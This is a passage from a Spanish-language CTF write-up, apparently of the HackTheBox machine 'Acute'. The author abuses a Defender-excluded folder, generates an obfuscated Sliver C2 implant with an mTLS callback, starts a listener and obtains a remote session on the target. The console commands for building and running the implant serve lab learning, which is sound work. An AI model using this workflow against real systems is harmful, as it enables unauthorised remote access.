 ```console

----                 -------------         ------ ----                                                                 

-a-h--        12/21/2021   6:41 PM            148 desktop.ini                                                          

 

 

PS C:\Utils> 

type desktop.ini

[.ShellClassInfo]

InfoTip=Directory for Testing Files without Defender

PS C:\Utils> 
```

Muy CTF todo, pero vamos a descargar aquí el ejecutable.

Por alguna razón no conseguía la conexión en Sliver, así que probé a generar otro implante pero esta vez para que la conexión se realice a través de `mtls`
```console
[server] sliver > generate --mtls 10.10.14.125 --os windows --arch amd64 --format exe

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 29s
[*] Implant saved to /home/pointedsec/Desktop/acute/content/TOUGH_PERIPHERAL.exe
```

Nos ponemos en escucha.
```console
[server] sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #1

[server] sliver > jobs

 ID   Name   Protocol   Port   Stage Profile 
==== ====== ========== ====== ===============
 1    mtls   tcp        8888                 

```

Y ahora sí que conseguimos una sesión.
```console
[server] sliver > sessions

 ID         Transport   Remote Address        Hostname     Username        Operating System   Health  
========== =========== ===================== ============ =============== ================== =========
 7200a7d4   mtls        10.129.136.40:49890   Acute-PC01   ACUTE\edavies   windows/amd64      [ALIVE] 

```
